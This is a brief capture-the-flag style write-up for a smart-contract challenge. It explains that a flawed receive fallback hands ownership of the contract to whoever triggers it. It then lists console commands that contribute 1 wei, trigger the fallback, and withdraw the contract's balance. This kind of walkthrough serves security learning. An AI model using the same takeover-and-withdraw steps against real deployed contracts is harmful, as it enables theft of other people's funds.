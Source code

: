 ## 1) Catch:
The poorly implemented fallback function "receive" changes an important logic of the contract
assigning the ownership to the last person who triggered this fallback by doing one this actions: <br>
    - Calling an non existing function
    - Calling an existing function without passing required data
    - Sending ether to the contract without any data

## 2) Solutions.
    - Wasting too much time and effort depositing 1001 times 0.001 ether each time so the ownership changes.
    - Triggering the fallback function.

    Approach b) Sending 1wei to the contract will trigger the fallback function.

        await contract.contribute({value: 1}) // Because of the logic of the fallback, the user must contribute first.

        // Here is where the fallback is triggered
        await contract.sendTransaction({
        from: player,
        value: 1
        })

        // Because you are now the owner, this txn will go through.
        await contract.withdraw()